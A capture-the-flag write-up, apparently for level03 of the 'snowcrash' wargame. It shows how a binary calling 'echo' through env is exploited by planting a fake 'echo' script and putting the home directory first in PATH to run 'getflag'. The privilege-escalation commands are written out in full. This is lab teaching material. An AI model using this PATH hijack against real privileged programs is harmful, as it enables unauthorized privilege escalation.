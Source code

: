 # Find the password of Flag03

## First check :
Home directory : \[✓\] not empty.

This time, we found a binary file which we run:

> ./level03
> Exploit me


## Exploit it.

The first thing that came us in mind is to hexdump the binary file.
#### result:
> /usr/bin/env echo Exploit me

The vulnerability is then in the `echo` which we exploit by injecting the `getflag` command in our *homemade echo*.
#### (by homemade, we mean the /home/... obviously **~**)


```
chmod 777 .
echo 'getflag' > echo
chmod +x echo
export PATH=/home/user/level03/:$PATH
```

We run again the `./level03` aaaand..

## TADAAAAAAA, It's ... 
[The next level flag](https://github.com/XD-OB/snowcrash/blob/master/level03/flag)

_tobecontinued_